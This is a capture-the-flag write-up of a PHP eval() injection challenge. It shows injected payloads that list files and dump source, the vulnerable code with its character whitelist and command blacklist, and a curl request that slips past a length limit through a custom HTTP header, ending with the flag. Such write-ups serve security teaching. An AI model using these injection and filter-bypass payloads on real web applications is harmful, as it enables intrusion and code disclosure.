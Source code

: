 # Web-Embedding
URL of the challenge: [http://138.91.58.10/Embedding/] (Embedding)

In the page, we got a input box
```html
<input name="username" placeholder="Enter Your UserName Here">
```

We tried to input 
> getcwd()

The result changed to
> /var/www/html/Embedding welcome

Thus, we knew that the challenge is about <font color="#f03c15"> Eval() Vulnerability </font>\

Then, we put 
> print_r(scandir(getcwd()))
to get all file in this directory.\

The result changed to
> Array ( \[0\] => . \[1\] => .. \[2\] => fl@g.php \[3\] => index.php ) 1 welcome

Finally, we knew that the flag is stored in fl@g.php\

Before we get the source code of fl@g.php, we should know the constants of the input first\

Thus, we typed
> show_source(end(scandir(getcwd())))

```php
<html> 
<head><title>Embedded Challenge </title> </head>
<body>
<form> 
<input name="username" placeholder="Enter Your UserName Here"/>
<input type="Submit"/>
</form>
</body>
</html>

<?php




if(isset($_GET["username"]))
{
    $wl = preg_match('/^[a-z0-9\(\)\_\.\']+$/i', $_GET["username"]);
    $comn=preg_match('/^(rm|cp|mv|cd|grep|find|cat|Y2F0|ZmluZA|cm0|Y3A|bXY|Z3JlcA|whoami|)+$/i', $_GET["username"]);

    if($wl === 0 || $comn===1 || strlen($_GET["username"]) > 40) {
        die("Bad Character Detected or you Break The Limit ");
   }
   $username=$_GET['username'];
    $eval=eval("echo ".$username.";");
    echo(" welcome ".$eval);
}
?> 
```

Thus, we knew that the input only can be\
<font color="#f03c15">a-z</font>, 
<font color="#f03c15">0-9</font>, 
<font color="#f03c15">(</font>, 
<font color="#f03c15">)</font>, 
<font color="#f03c15">_</font>, 
<font color="#f03c15">.</font>, 
<font color="#f03c15">'</font> and the string length must be smaller than 41

First we try that
> read_file(next(array_reverse(scandir('.'))))

However, the string length is 43, we cannot get the result.\

Thus, we found that we can set the header of the request to store variable fl@g/.php\

Then, we use curl command in console to get the source code of fl@g/.php

> curl -s -H "Flag: fl@g.php" "http://138.91.58.10/Embedding/?username=show_source(end(getallheaders()))"

```html 
<html>
<head><title>Embedded Challenge </title> </head>
<body>
<form>
<input name="username" placeholder="Enter Your UserName Here"/>
<input type="Submit"/>
</form>
</body>
</html>

<code><span style="color: #000000">
<span style="color: #0000BB">&lt;?php<br />$flag</span><span style="color: #007700">=</span><span style="color: #DD0000">"0xL4ugh{Z!90o_S@y_W3lC0m3}"</span><span style="color: #007700">;<br /></span><span style="color: #0000BB">?&gt;<br /></span>
</span>
</code>1 welcome
```

Finally, we got the flag ^.^

> 0xL4ugh{Z!90o_S@y_W3lC0m3}
